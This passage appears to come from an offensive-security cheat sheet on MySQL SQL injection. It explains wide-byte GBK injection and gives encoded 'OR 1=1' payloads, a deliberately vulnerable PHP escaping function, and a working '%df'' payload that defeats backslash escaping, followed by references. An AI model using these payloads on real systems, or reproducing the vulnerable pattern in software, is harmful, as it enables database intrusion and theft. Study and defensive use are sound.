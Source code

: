```sql
%A8%27 OR 1=1;--
%8C%A8%27 OR 1=1--
%bf' OR 1=1 -- --
```

Here is a PHP example using GBK encoding and filtering the user input to escape backslash, single and double quote.

```php
function check_addslashes($string)
{
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash
    $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash
    $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash
      
    return $string;
}

$id=check_addslashes($_GET['id']);
mysql_query("SET NAMES gbk");
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
print_r(mysql_error());
```

Here's a breakdown of how the wide byte injection works:

For instance, if the input is `?id=1'`, PHP will add a backslash, resulting in the SQL query: `SELECT * FROM users WHERE id='1\'' LIMIT 0,1`.

However, when the sequence `%df` is introduced before the single quote, as in `?id=1%df'`, PHP still adds the backslash. This results in the SQL query: `SELECT * FROM users WHERE id='1%df\'' LIMIT 0,1`. 

In the GBK character set, the sequence `%df%5c` translates to the character `連`. So, the SQL query becomes: `SELECT * FROM users WHERE id='1連'' LIMIT 0,1`. Here, the wide byte character `連` effectively "eating" the added escape charactr, allowing for SQL injection.

Therefore, by using the payload `?id=1%df' and 1=1 --+`, after PHP adds the backslash, the SQL query transforms into: `SELECT * FROM users WHERE id='1連' and 1=1 --+' LIMIT 0,1`. This altered query can be successfully injected, bypassing the intended SQL logic.


## References

- [[SQLi] Extracting data without knowing columns names - Ahmed Sultan - February 9, 2019](https://blog.redforce.io/sqli-extracting-data-without-knowing-columns-names/)
- [A Scientific Notation Bug in MySQL left AWS WAF Clients Vulnerable to SQL Injection - Marc Olivier Bergeron - October 19, 2021](https://www.gosecure.net/blog/2021/10/19/a-scientific-notation-bug-in-mysql-left-aws-waf-clients-vulnerable-to-sql-injection/)
- [Alternative for Information_Schema.Tables in MySQL - Osanda Malith Jayathissa - February 3, 2017](https://osandamalith.com/2017/02/03/alternative-for-information_schema-tables-in-mysql/)
- [Ekoparty CTF 2016 (Web 100) - p4-team - October 26, 2016](https://github.com/p4-team/ctf/tree/master/2016-10-26-ekoparty/web_100)
- [Error Based Injection | NetSPI SQL Injection Wiki - NetSPI - February 15, 2021](https://sqlwiki.netspi.com/injectionTypes/errorBased)
- [How to Use SQL Calls to Secure Your Web Site - IPA ISEC - March 2010](https://www.ipa.go.jp/security/vuln/ps6vr70000011hc4-att/000017321.pdf)
- [MySQL Out of Band Hacking - Osanda Malith Jayathissa - February 23, 2018](https://www.exploit-db.com/docs/english/41273-mysql-out-of-band-hacking.pdf)
- [SQL Truncation Attack - Rohit Shaw - June 29, 2014](https://resources.infosecinstitute.com/sql-truncation-attack/)
- [SQLi filter evasion cheat sheet (MySQL) - Johannes Dahse - December 4, 2010](https://websec.wordpress.com/2010/12/04/sqli-filter-evasion-cheat-sheet-mysql/)